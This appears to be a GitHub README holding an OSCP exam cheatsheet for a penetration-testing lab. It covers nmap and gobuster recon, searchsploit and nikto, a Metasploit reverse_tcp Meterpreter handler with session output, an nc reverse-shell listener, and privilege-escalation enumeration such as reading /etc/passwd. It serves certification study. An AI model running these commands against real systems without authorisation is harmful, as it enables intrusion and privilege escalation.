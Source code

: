 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Preparation](#preparation)
- [Recon](#recon) 
- [Preparation](#preparation) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists

Useful Tools:
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FIND VULNS + EXPLOIT CODE

Tools:
```bash
# Nikto webapp scanner:
$ nikto -host 10.11.1.71

# Searchsploit (exploit-db):
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# Nmap Scripting ENgine
$ ls -l /usr/share/nmap/scripts/*service_name*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

Using the public exploit you found + Metasploit Multi-Handler, you can establish a Meterpreter session with the target.

Metasploit Handler usage w/ public exploit:
```bash
# Set up Metasploit Handler (use multi-handler -> set reverse shell payload -> set variables -> run handler)
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
$ msf exploit(handler) > set EXITFUNC thread
$ msf exploit(handler) > set LHOST 10.11.0.31
$ msf exploit(handler) > set LPORT 443
$ msf exploit(handler) > run
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 

# Execute Public Exploit:
$ python exploit.py [ target_ip ]

# Metasploit Handler (meterpreter session -> background the session -> connect back to session)
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 
[*] Sending stage (179267 bytes) to 10.11.1.5
[*] Meterpreter session 0 opened (10.11.0.31:443 -> 10.11.1.5:1199) at 2019-01-07 22:46:33 +1100
meterpreter > help
. . . 
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 0
[*] Starting interaction with 0...
meterpreter >
```

Meterpreter sometimes doesn't work.  
Go back to using `nc -nvlp 80` and trigger reverse shell in vulnerable app/service.


### PRIVILEGE ESCALATION - ENUM

Get a proper shell: https://netsec.ws/?p=337
```bash
# This shell mostly works
python -c 'import pty; pty.spawn("/bin/sh")'
```

General privesc guide:
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Linux privesc:
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* User RWX permissions enabled on files/directories
* Config.* files
* Custom programs
* SUID / SGID programs
* Cron jobs / scheduled programs or scripts
* Hardcoded credentials -> where are credentials kept?


Privesc Enum:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.



### EXPLOITS - USING / COMPILING

Compilation tips:
* `./exploit` results in errors: compile in the host itself, Kali box or another machine.

Useful compilation commands:
```bash
$ gcc -m32 -Wl,--hash-style=both exploit.c -o exploit
```

